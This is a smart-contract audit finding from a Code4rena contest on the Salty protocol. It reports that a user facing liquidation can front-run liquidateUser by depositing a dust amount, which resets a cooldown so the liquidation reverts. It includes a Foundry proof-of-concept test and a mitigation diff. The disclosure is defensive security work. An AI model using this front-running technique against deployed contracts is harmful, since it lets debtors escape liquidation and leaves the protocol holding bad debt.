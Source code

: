 # Original link
https://github.com/code-423n4/2024-01-salty-findings/issues/312
# Lines of code

https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol#L140
https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol#L70


# Vulnerability details

## Impact

The [CollateralAndLiquidity](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol) contract contains a critical vulnerability that allows a user undergoing liquidation to evade the process by manipulating the `user.cooldownExpiration` variable. This manipulation is achieved through the [CollateralAndLiquidity::depositCollateralAndIncreaseShare](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol#L70) function, specifically within the [StakingRewards::_increaseUserShare](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/staking/StakingRewards.sol#L57) function (code line [#70](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/staking/StakingRewards.sol#L70)):

```solidity
File: StakingRewards.sol
57: 	function _increaseUserShare( address wallet, bytes32 poolID, uint256 increaseShareAmount, bool useCooldown ) internal
58: 		{
59: 		require( poolsConfig.isWhitelisted( poolID ), "Invalid pool" );
60: 		require( increaseShareAmount != 0, "Cannot increase zero share" );
61: 
62: 		UserShareInfo storage user = _userShareInfo[wallet][poolID];
63: 
64: 		if ( useCooldown )
65: 		if ( msg.sender != address(exchangeConfig.dao()) ) // DAO doesn't use the cooldown
66: 			{
67: 			require( block.timestamp >= user.cooldownExpiration, "Must wait for the cooldown to expire" );
68: 
69: 			// Update the cooldown expiration for future transactions
70: 			user.cooldownExpiration = block.timestamp + stakingConfig.modificationCooldown();
71: 			}
72: 
73: 		uint256 existingTotalShares = totalShares[poolID];
74: 
75: 		// Determine the amount of virtualRewards to add based on the current ratio of rewards/shares.
76: 		// The ratio of virtualRewards/increaseShareAmount is the same as totalRewards/totalShares for the pool.
77: 		// The virtual rewards will be deducted later when calculating the user's owed rewards.
78:         if ( existingTotalShares != 0 ) // prevent / 0
79:         	{
80: 			// Round up in favor of the protocol.
81: 			uint256 virtualRewardsToAdd = Math.ceilDiv( totalRewards[poolID] * increaseShareAmount, existingTotalShares );
82: 
83: 			user.virtualRewards += uint128(virtualRewardsToAdd);
84: 	        totalRewards[poolID] += uint128(virtualRewardsToAdd);
85: 	        }
86: 
87: 		// Update the deposit balances
88: 		user.userShare += uint128(increaseShareAmount);
89: 		totalShares[poolID] = existingTotalShares + increaseShareAmount;
90: 
91: 		emit UserShareIncreased(wallet, poolID, increaseShareAmount);
92: 		}
```

Malicious user can perform front-running of the `liquidation` function by depositing small amounts of tokens to his position, incrementing the `user.cooldownExpiration` variable. Consequently, the execution of the `liquidation` function will be reverted with the error message `Must wait for the cooldown to expire.` This vulnerability could lead to attackers evading liquidation, potentially causing the system to enter into debt as liquidations are avoided.

## Proof of Concept

A test case, named `testUserLiquidationMayBeAvoided`, has been created to demonstrate the potential misuse of the system. The test involves the following steps:

1. User Alice deposits and borrow the maximum amount.
2. The collateral price crashes.
3. Alice maliciously front-runs the `liquidation` execution by depositing a the minimum amount using the `collateralAndLiquidity::depositCollateralAndIncreaseShare` function.
4. The `liquidation` transaction is reverted by "Must wait for the cooldown to expire" error.

```solidity
// Filename: src/stable/tests/CollateralAndLiquidity.t.sol:TestCollateral
// $ forge test --match-test "testUserLiquidationMayBeAvoided" --rpc-url https://yoururl -vv
//
    function testUserLiquidationMayBeAvoided() public {
        // Liquidatable user can avoid liquidation
        //
		// Have bob deposit so alice can withdraw everything without DUST reserves restriction
        _depositHalfCollateralAndBorrowMax(bob);
        //
        // 1. Alice deposit and borrow the max amount
        // Deposit and borrow for Alice
        _depositHalfCollateralAndBorrowMax(alice);
        // Check if Alice has a position
        assertTrue(_userHasCollateral(alice));
        //
        // 2. Crash the collateral price
        _crashCollateralPrice();
        vm.warp( block.timestamp + 1 days );
        //
        // 3. Alice maliciously front run the liquidation action and deposit a DUST amount
        vm.prank(alice);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(PoolUtils.DUST + 1, PoolUtils.DUST + 1, 0, block.timestamp, false );
        //
        // 4. The function alice liquidation will be reverted by "Must wait for the cooldown to expire"
        vm.expectRevert( "Must wait for the cooldown to expire" );
        collateralAndLiquidity.liquidateUser(alice);
    }
```

## Tools used

Manual review

## Recommended Mitigation Steps

Consider modifying the [liquidation](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol#L154) function as follows:

```diff
	function liquidateUser( address wallet ) external nonReentrant
		{
		require( wallet != msg.sender, "Cannot liquidate self" );

		// First, make sure that the user's collateral ratio is below the required level
		require( canUserBeLiquidated(wallet), "User cannot be liquidated" );

		uint256 userCollateralAmount = userShareForPool( wallet, collateralPoolID );

		// Withdraw the liquidated collateral from the liquidity pool.
		// The liquidity is owned by this contract so when it is withdrawn it will be reclaimed by this contract.
		(uint256 reclaimedWBTC, uint256 reclaimedWETH) = pools.removeLiquidity(wbtc, weth, userCollateralAmount, 0, 0, totalShares[collateralPoolID] );

		// Decrease the user's share of collateral as it has been liquidated and they no longer have it.
--		_decreaseUserShare( wallet, collateralPoolID, userCollateralAmount, true );
++		 _decreaseUserShare( wallet, collateralPoolID, userCollateralAmount, false );

		// The caller receives a default 5% of the value of the liquidated collateral.
		uint256 rewardPercent = stableConfig.rewardPercentForCallingLiquidation();

		uint256 rewardedWBTC = (reclaimedWBTC * rewardPercent) / 100;
		uint256 rewardedWETH = (reclaimedWETH * rewardPercent) / 100;

		// Make sure the value of the rewardAmount is not excessive
		uint256 rewardValue = underlyingTokenValueInUSD( rewardedWBTC, rewardedWETH ); // in 18 decimals
		uint256 maxRewardValue = stableConfig.maxRewardValueForCallingLiquidation(); // 18 decimals
		if ( rewardValue > maxRewardValue )
			{
			rewardedWBTC = (rewardedWBTC * maxRewardValue) / rewardValue;
			rewardedWETH = (rewardedWETH * maxRewardValue) / rewardValue;
			}

		// Reward the caller
		wbtc.safeTransfer( msg.sender, rewardedWBTC );
		weth.safeTransfer( msg.sender, rewardedWETH );

		// Send the remaining WBTC and WETH to the Liquidizer contract so that the tokens can be converted to USDS and burned (on Liquidizer.performUpkeep)
		wbtc.safeTransfer( address(liquidizer), reclaimedWBTC - rewardedWBTC );
		weth.safeTransfer( address(liquidizer), reclaimedWETH - rewardedWETH );

		// Have the Liquidizer contract remember the amount of USDS that will need to be burned.
		uint256 originallyBorrowedUSDS = usdsBorrowedByUsers[wallet];
		liquidizer.incrementBurnableUSDS(originallyBorrowedUSDS);

		// Clear the borrowedUSDS for the user who was liquidated so that they can simply keep the USDS they previously borrowed.
		usdsBorrowedByUsers[wallet] = 0;
		_walletsWithBorrowedUSDS.remove(wallet);

		emit Liquidation(msg.sender, wallet, reclaimedWBTC, reclaimedWETH, originallyBorrowedUSDS);
		}
```

This modification ensures that the `user.cooldownExpiration` expiration check does not interfere with the `liquidation` process, mitigating the identified security risk.


## Assessed type

Invalid Validation